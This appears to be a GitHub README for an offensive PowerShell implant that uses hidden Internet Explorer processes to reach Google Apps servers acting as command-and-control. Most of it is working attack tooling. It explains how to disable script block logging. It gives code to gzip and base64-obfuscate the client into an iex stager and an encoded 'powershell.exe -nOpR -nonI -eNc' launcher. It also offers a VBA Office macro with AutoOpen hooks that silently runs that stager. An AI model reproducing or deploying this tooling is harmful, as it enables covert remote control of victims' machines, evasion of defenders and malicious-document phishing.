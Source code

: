 ## Client Support

![Windows-Tested](https://img.shields.io/static/v1?label=Windows%20%28Tested%29&message=10&color=success&logo=windows&style=flat-square&logoColor=cyan) ![Windows-Untested](https://img.shields.io/static/v1?label=Windows%20%28Untested%29&message=8%2C%207%2C%20Vista%2C%20XP%2c%20Windows%20Server%20%28any%29&color=important&logo=windows&style=flat-square&logoColor=cyan) 

## Deployment Notes

- Since PowerShell is an interpreted language, `client.ps1` is written to limit payload size. 
- The client uses the [InternetExplorer COM Interface](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/aa752084(v%3Dvs.85)) in PowerShell to create hidden InternetExplorer processes that reach out to the Google Apps Servers in the background. 
- The client disables _<u>process local</u>_ PowerShell script block logging using the technique outlined [here](https://cobbr.io/ScriptBlock-Logging-Bypass.html) first before continuing client execution.
- Add your Google Apps Server URLs to the `$SRV` array variable in `client.ps1`. The client will cycle through the array to load balance server connections.
- Run the following PowerShell to generate a payload:

```powershell
# read in UTF8 encoded file data
$utf8 = [system.io.file]::readallbytes('client.ps1');
$text = [system.text.encoding]::utf8.getstring($utf8);
# compress payload into one line
$text = $text.replace("  ","").replace("`n","").replace("`r","");
$bytes = [system.text.encoding]::utf8.getbytes($text);
# compress unicode payload using gzip
$buf = new-object system.io.memorystream;
$gzip = new-object system.io.compression.gzipstream(
    $buf,
    [system.io.compression.compressionmode]::compress);
$gzip.write($bytes, 0, $bytes.length);
$gzip.close();
# base64 encode compressed payload
[system.convert]::tobase64string($buf.toarray());
$buf.close();
```

- Copy the above base64 encoded payload and paste it into the following script and replace `<PAYLOAD>`:

```powershell
$d=[system.convert]::frombase64string("<PAYLOAD>");
$m=new-object system.io.memorystream;
$m.write($d,0,$d.length);
$m.seek(0,0)|out-null;
$z=new-object system.io.compression.gzipstream($m,[system.io.compression.compressionmode]::decompress);
$s=new-object system.io.streamreader($z);
iex($s.readtoend()); 
```

- Save the previous script with your `<PAYLOAD>` as `stager.ps1` and run the following PowerShell:

```powershell
# read in UTF8 encoded file data
$utf8 = [system.io.file]::readallbytes('stager.ps1');
$text = [system.text.encoding]::utf8.getstring($utf8);
# compress stager into one line
$text = $text.replace("`n","").replace("`r","");
# convert from UTF8 to Unicode (PowerShell.exe needs base64 Unicode)
$unicode = [system.text.encoding]::convert(
    [system.text.encoding]::utf8, 
    [system.text.encoding]::unicode, 
    [system.text.encoding]::utf8.getbytes($text));
# output base64 stager
[system.convert]::tobase64string($unicode);
```

- Copy the base64 encoded stager and paste it into the following command by replacing `<STAGER>`:
  - More information about PowerShell obfuscation can be found [here](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1492186586.pdf)

```
powershell.exe -nOpR -nonI -eNc <STAGER>
```

- If you are looking for a VBS macro for embedding your payload into a Microsoft Office document, here is one that uses the same `<STAGER>` from the previous steps:

```vbscript
Private Sub run()
  Dim cmd As String
  cmd = "wmic process call create 'powershell.exe -nOpR -nonI -eNc <STAGER>'"
  Set sh = CreateObject("WScript.Shell")
  res = sh.run(cmd,0,True)
End Sub
Sub AutoOpen()
  run
End Sub
Sub AutoExec()
  run
End Sub
Sub Auto_Open()
  run
End Sub
Sub Auto_Exec()
  run
End Sub
```

- Here are some fun PowerShell test commands :wink::

```powershell
(new-object -com SAPI.SpVoice).speak('self destruct in 9 8 7 6 5 4 3 2 1 boom')
$e=new-object -com internetexplorer.application; 
$e.visible=$true;
$e.navigate('https://www.youtube.com/watch?v=dQw4w9WgXcQ');
```

## TODO:

- [ ] Add better handling of orphaned child `iexplore.exe` processes due to errors in `client.ps1`

